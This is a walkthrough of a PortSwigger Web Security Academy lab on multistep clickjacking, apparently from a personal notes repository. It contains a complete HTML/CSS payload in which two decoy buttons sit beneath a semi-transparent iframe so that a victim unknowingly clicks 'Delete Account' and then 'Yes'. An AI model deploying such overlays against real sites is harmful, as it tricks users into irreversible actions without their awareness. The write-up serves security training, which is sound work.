

# [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)

## Steps

- Opened the target web application and logged in with the provided credentials. Navigated to the account page and identified that the "Delete Account" action required two sequential confirmations. "Delete Account" button is followed by a "Yes" confirmation button, making a single-step clickjacking payload insufficient.

- Constructed a multistep clickjacking payload using two separate decoy `<div>` elements, each containing a button aligned to one of the two required click targets on the target page. Both decoy buttons were positioned independently using absolute CSS coordinates and placed beneath the transparent iframe using `z-index: 1`, while the iframe itself sat on top at `z-index: 2`.

```html
<style>
  #target_website {
    position: relative;
    width: 1900px;
    height: 935px;
    opacity: 0.5000001;
    z-index: 2;
  }

  #decoy_website1 {
    position: absolute;
    top: 535px;
    left: 410px;
    z-index: 1;
  }

  #decoy_website2 {
    position: absolute;
    top: 330px;
    left: 560px;
    z-index: 1;
  }
</style>

<div id="decoy_website1">
  <button>Click me first</button>
</div>
<div id="decoy_website2">
  <button>Click me next</button>
</div>

<iframe
  id="target_website"
  src="https://0ad000ad04bd51618023f840002b0011.web-security-academy.net/my-account"
>
</iframe>
```

- Adjusted the `top` and `left` values for each decoy button iteratively until "Click me first" was precisely aligned with the "Delete Account" button and "Click me next" was aligned with the "Yes" confirmation button on the target page.

- Delivered the exploit to the victim. The victim clicked "Click me first", which triggered the hidden "Delete Account" button inside the iframe. The page then transitioned to the confirmation dialog, and the victim clicked "Click me next", which triggered the hidden "Yes" confirmation button, completing the two-step deletion sequence without the victim's awareness.



- Both clicks were captured in the correct order and the account deletion was executed successfully, completing the lab.